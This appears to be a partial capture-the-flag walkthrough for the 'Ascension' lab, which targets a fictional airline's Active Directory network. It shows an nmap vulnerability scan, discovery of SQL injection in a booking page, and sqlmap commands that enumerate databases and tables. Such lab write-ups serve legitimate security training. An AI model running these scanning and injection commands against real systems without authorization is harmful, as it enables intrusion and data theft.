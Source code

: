 # Ascension
#endgame

### Description: 
    Daedalus Airlines is quickly becoming a major player in global aviation.

	The pace of growth has meant that the company has accumulated a lot of technical debt. In order to avoid a data breach and potentially putting their supply chain at risk, Daedalus have hired your Cyber Security firm to test their systems.

	Ascension is designed to test your skills in Enumeration, Exploitation, Pivoting, Forest Traversal and Privilege Escalation inside two small Active Directory networks.

	The goal is to gain access to the trusted partner, pivot through the network and compromise two Active Directory forests while collecting several flags along the way. Can you Ascend?

### Entry point: 
    10.13.38.20
### Flags   : `7`
### Points : `195`
---

## Takeoff

```bash
nmap -sC --script vuln -A -T4 10.13.38.20 --open
```

We find it's windows machine with all ms servers and shit.

Going to the site we find a SQLi in one of the pages by entering `'` in one of the search boxes.

on the site `http://10.13.38.20/book-trip.php`

![[Pasted image 20211021125736.png]]

We can see that it is not going through a GET request we have to check for the params in burpsuite and use them in SQLmap.

Params from the Burp POST Request `destination=some&adults=dumb&children=shit`

Checking for vulnerability on sqlmap
```bash
sqlmap -u 'http://10.13.38.20/book-trip.php' --data='destination=some&adults=dumb&children=shit'
```

looks like destination is vulnerable as manually checked let's try to get the dbs and tables and all that juicy data.
```
available databases [6]:  
[*] daedalus  
[*] logs  
[*] master  
[*] model  
[*] msdb  
[*] tempdb
```

```bash
sqlmap -u 'http://10.13.38.20/book-trip.php' --data='destination=some&adults=dumb&children=shit' -p destination --dbs

sqlmap -u 'http://10.13.38.20/book-trip.php' --data='destination=some&adults=dumb&children=shit' -p destination -D msdb --tables
```